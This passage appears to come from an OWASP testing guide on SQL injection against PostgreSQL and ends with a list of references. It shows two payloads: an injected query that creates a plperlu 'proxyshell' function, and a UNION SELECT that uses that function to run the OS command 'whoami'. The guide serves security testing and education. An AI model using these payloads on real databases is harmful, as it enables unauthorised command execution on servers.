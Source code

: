 **Example:**

  - Create a proxy shell function:
      -
        ''<nowiki>/store.php?id=1; CREATE FUNCTION proxyshell(text)
        RETURNS text AS 'open(FD,"$_\[0\]

|");return join("",<FD>);' LANGUAGE plperlu;</nowiki>

  - Run an OS Command:
      -
        */store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'),
        NULL OFFSET 1;--*

## References

  - OWASP : "[Testing for SQL
    Injection](Testing_for_SQL_Injection_\(OWASP-DV-005\) "wikilink")"



  - OWASP : [SQL Injection Prevention Cheat
    Sheet](SQL_Injection_Prevention_Cheat_Sheet "wikilink")



  - PostgreSQL : "Official Documentation" -
    <http://www.postgresql.org/docs/>



  - Bernardo Damele and Daniele Bellucci: sqlmap, a blind SQL injection
    tool - <http://sqlmap.sourceforge.net>